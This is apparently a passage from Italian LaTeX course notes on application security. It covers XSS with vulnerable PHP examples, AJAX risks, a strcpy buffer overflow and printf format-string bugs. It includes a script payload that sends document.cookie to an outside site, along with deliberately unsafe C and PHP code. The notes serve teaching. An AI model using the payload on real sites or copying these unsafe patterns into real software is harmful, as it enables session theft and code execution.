		<input type="text" name="stringa">
		<input type="submit" value="Ok">
	</form>
</html>
\end{lstlisting}
Lo script PHP a cui il form invia i dati è del tipo:
\begin{lstlisting}[language=php]
<?php
	$input = $_GET['stringa'];
	echo "Hai scritto: ".$input;
?>
\end{lstlisting}
Se provassimo ad inserire del codice HTML (e.g. \texttt{<h1> prova </h1>}) nel form, questo viene interpretato dal browser come codice da eseguire e non come semplice testo. Se, invece, dentro al form provassimo ad inserire del codice Javascript (e.g. \texttt{<script> alert("Hello World!"); </script>}), succederebbe che il browser scaricherebbe la pagina web con il codice Javascript e lo eseguirebbe in locale. In questo caso l'unica conseguenza è l'apertura di una finestra nel browser dell'utente, ma complicando le cose potremmo avere attacchi molto più complessi.

HTML non ha uno stato relativo alla sessione, ogni connessione non è correlata alla precedente. Per evitare di reinserire utente e password ad ogni azione, si utilizzano i \textit{cookies}. Un cookie è un'informazione che il server invia al browser dopo il primo login ed il browser automaticamente reinvia al server ad ogni azione. In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità del cookie. Vediamo adesso un esempio più completo; nella prima pagina mettiamo un codice banale per effettuare un login:
\begin{lstlisting}[language=html]
<html>
	<h4> login </h4>
	<form action="check.php" method="get">
		User:
		<input type="text" name="user">
		<br>
		Password:
		<input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che controlla l'utente invia un cookie:
\begin{lstlisting}[language=php]
<?php
	if ($_get["user"] == "pippo"){
		setcookie("user", "authorized", time() + 3600);
		echo "Benvenuto ".$user;
		# crea un cookie con nome user, e dati relativi all'utente.
		echo <<<END
		<form action="retrieve.php" method="get">
			Input:
			<input type="text" name="content">
			<br>
			<input type="submit" value="Ok">
		</form>
		END;
	}
	else
		echo "L'utente non esiste\n";
?>
\end{lstlisting}
Il codice di echo è il seguente:
\begin{lstlisting}[language=php]
<?php
	if ($_COOKIE["user"] == "authorized"){
		$input = $_GET['content'];
		echo "Hai scritto: ".$input;
	}
	else
		echo "non hai diritto ad accedere a questa pagina\n"
?>
\end{lstlisting}
Se adesso provassimo ad inserire il codice Javascript di prima, troveremmo un cookie con un valore. Se inserissimo però \texttt{{\footnotesize<script> window.open('http://google.it?cookie='+document.cookie) </script>}} succederebbe che il browser invierebbe al sito il contenuto del cookie.

Vediamo più nel concreto dove può essere applicato questo genere di attacco. Immaginiamo un sito nel quale è possibile lasciare commenti. Il sito non fa la validazione degli input, quindi permette agli utenti di aggiungere codice Javascript alla pagina. Un attaccante potrebbe pensare quindi di aggiungere un codice come quello precedente, e tutte le persone che dopo di lui caricano la pagina lo eseguirebbero. Se quelle persone hanno dei cookie, i cookie verrebbero rediretti verso un sito controllato dall'attaccante: l'attaccante a quel punto può usarli per accedere a dei servizi con l'identità degli utenti vittime. A scopo informativo, di seguito sono riportati alcuni attacchi XSS effettuati negli scorsi anni:
\begin{itemize}
	\item Ottobre 2007. XSS in Sutra's Airkiosk: un software che gestisce le prenotazioni online di molte compagnie aeree low-cost. Sul sito gli utenti immettono i propri dati ed i numeri di carta di credito.
	\item Gennaio 2008. XSS nel sito di Banca Fideuram Online: un XSS permetteva all'attaccante di aprire pagine che provenivano dal sito della banca, sotto HTTPS, ma che redirigevano le informazioni all'esterno.
\end{itemize}
La stessa cosa può accadere utilizzando: link HTML dentro al corpo delle e-mail ed errori prodotti da web server mal configurati (e.g. 404).

\subsection{Attacchi ai protocolli superiori}
Introduciamo anzitutto una nota tecnica di sviluppo: \textbf{AJAX} (Asynchronous JavaScript and XML). È un paradigma per la programmazione online che lega Javascript e XML con un qualsiasi linguaggio di backend per produrre interazione \textit{asincrona} tra client e server. Il termine \textquotedblleft interazione asincrona" significa che la pagina reagisce in tempo reale alle azioni dell'utente senza il bisogno di ricaricare completamente la pagina. Gmail e facebook sono esempi di applicazioni scritte in AJAX. Nella pratica AJAX non è una nuova tecnologia ma una composizione di
tecnologie esistenti aventi gli stessi problemi, ma con una più complessa gestione della sicurezza. AJAX è un modello di programmazione molto complesso, vedremo dunque solo alcune linee guida relative alla sicurezza. In Figura \ref{img:ajax-model} è riportata la differenza tra modello classico ed il modello di AJAX; in pratica la parte di autenticazione e richiesta-risposta al server è gestita interamente da AJAX. Questa non è assolutamente una buona idea, poiché sorge il problema \textquotedblleft chi si autentica con chi" ed inoltre un eventuale bug nell'AJAX engine rappresenterebbe una vulnerabilità del sistema utilizzabile da un attaccante.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.35]{images/ajax-model}
	\caption{Modello classico client-server e modello AJAX.}
	\label{img:ajax-model}
\end{figure}\\
Vediamo tre pericoli a cui è esposto AJAX:
\begin{enumerate}
	\item \textbf{Controlli client-side}. Un controllo di sicurezza deve essere effettuato server-side e non client-side. Quando si deve controllare la validità di una password ad esempio, ci si deve ricordare che l'applicazione client-side è
	sempre manipolabile dall'utente. La tendenza a demandare azioni all'applicazione cliente su AJAX porta a compiere errori di questo tipo.
	\item \textbf{Cache client-side}. AJAX salva in cache locale molti dati relativi alla sessione; è necessario dunque porre un'attenzione particolare verso altri programmi che possono manipolare questi dati.
	\item \textbf{Mashups}. Il web 2.0 è fatto di integrazione di contenuti prodotti dagli utenti e da altre sorgenti aggregate nella stessa pagina. Un aggregatore di servizi mette insieme oggetti che provengono da indirizzi IP e domini diversi. È quindi molto difficile tracciare tutte le sorgenti che contribuiscono ad una stessa pagina e filtrarle in modo che non vi caschino anche applicazioni non previste (vedi XSS).
\end{enumerate}
Per rendere sicuro AJAX, dunque, i controlli dovrebbero essere effettuati server-side e la cache di AJAX dovrebbe essere in qualche modo protetta per evitare che l'attaccante recuperi in qualche modo i dati sensibili al suo interno. Si noti che i dati nella cache vengono trasferiti prima di qualsiasi richiesta da parte dell'utente.

\noindent Vediamo di seguito gli attacchi alle applicazioni.

\subsubsection{Buffer overflow}
Il buffer overflow è una vulnerabilità in un programma che permette ad un attaccante di far eseguire del codice arbitrario all'applicazione vulnerabile; nel peggiore dei casi è svolto da remoto. Lo scopo è quello di riuscire ad eseguire dei comandi che altrimenti l'attaccante non potrebbe eseguire sulla macchina remota. I buffer overflow sono causati da errori di programmazione di chi scrive i programmi e sono di gran lunga la causa più frequente di intrusioni. Consideriamo un programma in linguaggio C come questo:
\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

int stampa(char*);

int main(int argc, char** argv) {
	if (argv[1]!=NULL)
		stampa(argv[1]);
	else
		printf("niente da stampare\n");
}
	
int stampa(char* parola) {
	char testo[10];
	strcpy(testo, parola);
	printf("la parola da stampare e': %s\n", testo);
}
\end{lstlisting}
La funzione \texttt{stampa()} viene allocata in una zona di memoria diversa da quella della funzione \texttt{main()}. Quando \texttt{stampa()} ha concluso, il controllo deve ritornare alla funzione \texttt{main()}: si dice che deve fare un \textit{jump incondizionato} nella locazione di memoria in cui è presente nella funzione \texttt{main()}. I passaggi di parametri avvengono mettendo le variabili in una zona comune: lo \textit{stack}. In questo caso nello stack:
\begin{itemize}
	\item Vi è l'indirizzo di ritorno a cui \texttt{stampa()} deve fare la jump quando termina.
	\item Vi è la variabile \texttt{parola}.
	\item Viene allocata anche la variabile \texttt{testo} della funzione \texttt{stampa()}.
\end{itemize}
La situazione dello stack è quindi la seguente:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|}
		\\ \\ \hline \\
		\hline
		\texttt{\small testo} \\
		\hline
		\texttt{\small parola} \\
		\hline
		\texttt{\small return address} \\
		\hline
	\end{tabular}
\end{figure}\\
Nel codice sorgente non si controlla che la variabile \texttt{parola} sia lunga meno di 10 \texttt{char}. Se la variabile fosse più lunga dello spazio assegnato, questa andrebbe a sovrascrivere altre zone dello stack, provocando un \textit{segmentation fault}. Si noti che le variabili nello stack vengono scritte dal basso verso l'alto (LIFO), ma all'interno di ogni variabile i caratteri vengono scritti dall'alto verso il basso. Se la variabile \texttt{testo} è più lunga della memoria che le è stata assegnata (10 byte), questa può arrivare a sovrascrivere anche l'indirizzo di ritorno e dunque l'attaccante può cambiare il flusso di esecuzione del programma. L'attaccante potrebbe inoltre scrivere del codice eseguibile nello spazio di memoria della variabile \texttt{testo} e far puntare l'indirizzo di ritorno all'inizio di quella porzione di memoria. Il risultato è quello voluto dall'attaccante: quando \texttt{stampa()} termina la propria esecuzione viene eseguito un jump verso l'indirizzo di ritorno modificato e viene eseguito il codice deciso dall'attaccante al termine del quale l'applicazione andrà in crash.

Per proteggersi dai buffer overflow è necessario controllare \textit{sempre} l'input che arriva dall'esterno (input da utente, input da file, variabili d'ambiente) ed utilizzare funzioni che limitano la lunghezza della scrittura (non usare dunque \texttt{strcpy(dest, source)}, ma \texttt{strncpy(dest, source, len)}). Linux rimedia a questo attacco offrendo la possibilità di rendere lo stack non eseguibile ed esistono inoltre dei compilatori/debugger per individuare i buffer overflow. Le buone pratiche che ogni programmatore dovrebbe considerare sono: protezione dai buffer overflow, uso di files temporanei, evitare race condition e la chiamata \texttt{system()} (quest'ultima può avere effetti devastanti per il sistema operativo).

\subsubsection{Format bug}
Un format bug è un attacco che si basa su un errore di programmazione molto comune che ha sempre a che vedere con la gestione delle stringhe. Un codice di esempio:
\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

int stampa(char*);

int main(int argc, char** argv) {
	if (argv[1]!=NULL)
		printf(argv[1]);
	else
		printf("niente da stampare");
	printf("\n");
}
\end{lstlisting}
Il format bug in questo caso è contenuto nella funzione \texttt{int printf(const char* format, ...);} che prende in ingresso una sequenza di puntatori a char ed il primo parametro è il formato. Nel formato generalmente è scritto quanti e quali sono i parametri che seguono, ad esempio \texttt{printf("\%s","Hello World");} La funzione \texttt{printf()} legge la stringa di formato, trova i simboli speciali che iniziano per \texttt{\%}, conta quanti e quali parametri seguono, li legge dallo stack, li sostituisce ai caratteri speciali e poi stampa la stringa di formato. Se si lascia all’utente la possibilità di scrivere nella stringa di formato (invece che riempire i buchi usando gli speciali \texttt{\%}) si va incontro a problemi seri. Vediamo quali sono.\\
Se l'utente digita come input una stringa come \texttt{\%x\%x}, funzione \texttt{printf()} cerca nello stack due valori e li stampa come esadecimali. Nello stack, ad eccezione delle informazioni che vengono messe implicitamente nel corso del programma, non vi è nulla che riguardi la \texttt{printf()} stessa. Per metterci qualcosa basta digitare in input una stringa del tipo \texttt{aaaa \%x\%x}. Così facendo, viene fatto il \textit{pop} dallo stack, nel momento in cui viene eseguita la \texttt{printf()}, di tutti i parametri che vengono passati, quindi non è possibile apparentemente interferire con lo stack. Esistono tuttavia dei valori di formato particolarmente esoterici:
\begin{itemize}
	\item \texttt{\%.XXX}: il punto specifica il padding con cui scrivo l'argomento successivo, come in
	\begin{center}
		\texttt{printf("\%.50d \%n\%d\textbackslash n", x, \&pos, y);}
	\end{center}
	\item \texttt{\%n}: questo valore di formato non legge, ma scrive nel valore di memoria dello stack, definito nel parametro successivo, il numero di caratteri stampati fino a quel momento. Il suo uso corretto sarebbe:
	\begin{lstlisting}[language=C]
		int pos, x = 235, y = 93;
		printf("\%d \%n\%d\n", x, &pos, y);
		printf("The offset was \%d\n", pos);
	\end{lstlisting}
\end{itemize}
In questo modo è possibile quindi scrivere nello stack valori più o meno arbitrari.\footnote{Per maggiori dettagli si veda \url{http://seclists.org/bugtraq/2000/Sep/214}.} Senza entrare nei dettagli, si possono ripetere gli stessi attacchi anche per attuare i buffer overflow.